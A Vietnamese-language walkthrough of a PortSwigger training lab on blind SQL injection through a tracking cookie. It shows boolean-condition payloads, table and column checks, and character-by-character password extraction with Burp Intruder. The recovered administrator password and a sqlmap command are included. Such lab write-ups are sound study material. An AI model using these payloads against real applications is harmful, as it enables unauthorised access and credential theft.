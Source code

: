 # Lab: Blind SQL injection with conditional responses

This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user.


# Overview

`SQL injection with conditional errors` là kỹ thuật này khác với các cuộc tấn công SQL Injection thông thường ở chỗ nó không trực tiếp trả về kết quả của câu lệnh SQL độc hại, mà sử dụng các lỗi điều kiện để xác định kết quả của truy vấn SQL bằng cách đưa ra các câu hỏi `true` hay`false`.

Ở lab này có lỗ hổng blind SQL. Ứng dụng này sử dụng tracking cookie để phân tích, và biểu diễn SQL query gồm các giá trị cookie được nhập vào.Kết quả của cuộc truy vấn không được trả lại, và không error messages được hiện lên. Nhưng ứng dụng thì bao gồm tin nhắn `Welcome back` ở trang web nếu query trả lại.

Ta cần đăng nhập vào administrator user

Form lab

![image](https://user-images.githubusercontent.com/115911041/232667041-aaff9df7-e91e-4d6b-8680-a669c9d984f5.png)

# Solution

**Confirm vulnerable parameter**

Bởi vì là blind SQL, ta không thể thấy bất kì kết quả của cuộc truy vấn. Tuy nhiên, bởi vì chúng ta có thể request có cho phép dành cho các câu trả lời `True` hoặc `False` 

Bước đầu tiên, ta cần xác định lỗ hổng bằng cách đưa requests cho ra câu trả lời `True` hoặc `False`

**Query**

Query được sử dụng trong lab này sẽ như thế này
```
SELECT trackingId FROM someTable WHERE trackingID = '<COOKIE_VALUE>'
```

![image](https://user-images.githubusercontent.com/115911041/232670060-97d3b04a-285a-4315-a488-aecb2cdd0a52.png)

`Cookie TrackingId=oLNIUOwSGHWlzJH1; session=7B6p6OLLq4GUkMRhCwcZQprHcyc8CRzH`

Ta thấy có xuất hiện `Welcome back` ở phần Response

**True**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=1--'
```
![image](https://user-images.githubusercontent.com/115911041/232671266-492e4f61-95d9-433a-8a83-2950e05a114f.png)
Ta thấy có xuất hiện `Welcome back` ở phần Response

**False**
```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and 1=2--'
```
![image](https://user-images.githubusercontent.com/115911041/232671623-2118d0f1-95ab-4c58-b95d-9759a0b7d022.png)
Không thấy xuất hiện `Welcome back`

**Confirm expected table**

Đầu tiên, mình xác nhận table `users` có tồn tại hay không. Lần này, mình sử dụng string dạng chữ từ table và so sánh nó.

``` 
SELECT trackingID FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select 'x' from users LIMIT 1)='x'--
```
![image](https://user-images.githubusercontent.com/115911041/232673130-8aab11dc-aa5c-4857-a2a0-db5988c96dd2.png)

Có kết quả `Welcome back`

**Verify columns exit as excepted**

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select username from users where username='administrator')='administrator'--
```
![image](https://user-images.githubusercontent.com/115911041/232674592-c908658c-b912-47be-b4ed-bf710bd5b3f9.png)

Xuất hiện `Welcome back`

**Get the length of the password**

Tìm dộ dài của password.Ở đây, chúng ta sử dụng hàm `LENGTH` của database và so sánh nó với số.

![image](https://user-images.githubusercontent.com/115911041/232674862-29620f44-9689-478f-b8dc-2255dcf0e2cb.png)

Không cho ra `Welcome back`, password không có độ dài là 1

Thay vào đó, mình có thể kiểm tra lớn hơn thay vì bằng. Ở kết quả `Welcome back` nghĩa là password có độ dài lớn hơn 1.

Brute force độ dài với Burp Intruder (Sniper, Payload 1)

![image](https://user-images.githubusercontent.com/115911041/232675581-22e6d236-256a-4f15-8286-2d40ef956497.png)

![image](https://user-images.githubusercontent.com/115911041/232675635-5a1aa5b2-e598-4425-8184-caa3d4635c58.png)

Sau đó attack, kiểm tra request nào xuất hiện `Welcome back` thì sẽ ra độ dài của password ở vị trí đó. Mình thì độ dài là 20.

**Enumerate password of the administrator**

Ta đã có độ dài của password, bây giờ đã có thể brute force từng kí tự. Nếu database có lưu trữ hàm hash của password, ta có thể extract hash để cracking offline.

```
SELECT trackingId FROM someTable WHERE trackingId = 'oLNIUOwSGHWlzJH1' and (select substring(password,1,1) from users where username='administrator')='a'--
```
![image](https://user-images.githubusercontent.com/115911041/232677055-c0e64e5e-498a-4551-80db-8c930243ed3e.png)

Ta nhận ra rằng kí tự đầu tiên không phải là `a`, sử dụng Burp Intruder để Brute Force

Attack type: ***Cluster bomb***

![image](https://user-images.githubusercontent.com/115911041/232677551-c4da07a3-98e5-4fb6-989e-1137856b9439.png)

***Payload 1: numeric squential, 1..20***
***Payload 2: Brute force

![image](https://user-images.githubusercontent.com/115911041/232677811-97a163e8-2bfe-450e-867f-d64e8111da07.png)

Theo như số thứ tự của payload 1 sẽ cho ra password:
`iwdzus40xqlsq8zms6v0`

**Tiến hành đăng nhập**

![image](https://user-images.githubusercontent.com/115911041/232678012-ab200efa-8465-4749-b2cf-f941c9ecf68b.png)

# SQL map:

Ta vẫn làm giống cách Burp Suite. Dựa vào lỗ hổng ở phần category. Truy cập vào mục bất kì, sau đó list toàn bộ database bằng sqlmap

`python3 sqlmap.py -u "https://0a41004804f8311284e6eb0e00cd00b8.web-security-academy.net/filter?category=Corporate+gifts" --dbs`




